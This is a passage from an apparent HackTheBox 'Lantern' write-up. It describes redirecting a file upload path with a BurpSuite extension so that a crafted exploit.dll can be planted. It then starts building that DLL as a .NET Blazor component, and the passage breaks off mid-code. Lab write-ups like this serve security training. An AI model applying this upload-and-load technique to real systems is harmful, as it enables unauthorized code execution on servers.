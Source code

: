 We know that the user here is <mark style="color:red;">**`Tomas`**</mark>

I tried searching for a few words where it wasn't there and I got a message saying:

<figure><img src="../../../.gitbook/assets/image (141).png" alt=""><figcaption></figcaption></figure>

The <mark style="color:red;">**`/opt/component`**</mark> directory contains <mark style="color:red;">**.dll**</mark> files and an idea came up to upload the exploit.dll file to trigger it. But we must change its default path which is <mark style="color:red;">**`/var/www/sites/lantern.htb/static/images`**</mark>

To do that we can use the BurpSuite extension:

<figure><img src="../../../.gitbook/assets/image (129).png" alt=""><figcaption></figcaption></figure>

These are the steps to trigger upload:

* Create a new .NET class library project

```sh
dotnet new classlib -n exploit
```

* Go to the exploit directory
* Adds the <mark style="color:red;">**`Microsoft.AspNetCore.Components`**</mark> package as a dependency on the project.

```bash
dotnet add package Microsoft.AspNetCore.Components --version 6.0.0
```

* Edit <mark style="color:red;">**`Class1.cs`**</mark> file content

{% code title="Class1.cs" %}
```csharp
using Microsoft.AspNetCore.Components;
using Microsoft.AspNetCore.Components.Rendering;
using System.IO;

namespace exploit
{
    public class Component : ComponentBase
    {
        protected override void BuildRenderTree(RenderTreeBuilder builder)
        {
            base.BuildRenderTree(builder);

```